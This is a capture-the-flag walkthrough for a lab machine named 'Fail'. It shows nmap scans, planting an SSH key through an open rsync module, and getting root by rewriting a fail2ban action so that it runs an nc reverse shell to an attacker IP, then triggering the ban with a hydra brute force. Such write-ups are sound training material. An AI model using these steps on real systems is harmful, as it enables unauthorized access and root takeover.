 # Fail

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:08 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync
```

Rsync was the only thing available.

### Rsync Enum --> SSH

Hacktricks has a whole page for RSync we can follow:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}

We can first do further enumeration on the modules available:

```
$ nmap -sV --script "rsync-list-modules" -p 873 192.168.243.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 21:09 +08
Nmap scan report for 192.168.243.126
Host is up (0.17s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```

`fox` might be the user present on the machine. We can list the files present:

```
$ rsync -av --list-only rsync://fox@192.168.243.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 22:21:59 .
lrwxrwxrwx              9 2020/12/04 04:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 12:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 12:12:36 .bashrc
-rw-r--r--            807 2019/04/18 12:12:36 .profile
```

What we do is create a new `.ssh` directory and place our public key within it:

```bash
mkdir .ssh
chmod 700 .ssh
cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
```

Then, transfer it to the machine:

```
$ rsync -av .ssh rsync://fox@192.168.243.126/fox
sending incremental file list
.ssh/
.ssh/authorized_keys

sent 534 bytes  received 67 bytes  240.40 bytes/sec
total size is 391  speedup is 0.65
```

Then, we can `ssh` in:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Fail2ban --> Root

The user is able to edit the `fail2ban` configuration files to execute commands as `root` since `fox` is part of that group.&#x20;

We just need to create a malicious `iptables-multiport.conf` file like this:

```
# Fail2Ban configuration file
#
# Author: Cyril Jaquier
# Modified by Yaroslav Halchenko for multiport banning
#

[INCLUDES]

before = iptables-common.conf

[Definition]

# Option:  actionstart
# Notes.:  command executed once at the start of Fail2Ban.
# Values:  CMD
#
actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

# Option:  actionstop
# Notes.:  command executed once at the end of Fail2Ban
# Values:  CMD
#
actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

# Option:  actioncheck
# Notes.:  command executed once before each actionban command
# Values:  CMD
#
actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = nc 192.168.45.231 80 -e /bin/bash
# Option:  actionunban
# Notes.:  command executed when unbanning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]

```

Afterwards, replace the actual file with our malicious one, where the `actionban` has been edited.&#x20;

```
fox@fail:/etc/fail2ban/action.d$ rm iptables-multiport.conf
fox@fail:/etc/fail2ban/action.d$ wget 192.168.45.231:21/iptables-multiport.conf
--2023-07-17 09:23:58--  http://192.168.45.231:21/iptables-multiport.conf
Connecting to 192.168.45.231:21... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1401 (1.4K) [application/octet-stream]
Saving to: ‘iptables-multiport.conf’

iptables-multiport.conf 100%[============================>]   1.37K  --.-KB/s    in 0s      

2023-07-17 09:23:59 (183 MB/s) - ‘iptables-multiport.conf’ saved [1401/1401]
```

To trigger it, just generate a lot of `ssh` tries with `hydra`:

```
$ hydra -l fox -P /usr/share/wordlists/rockyou.txt 192.168.243.126 ssh
```

We would then get a reverse shell back as `root`:

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
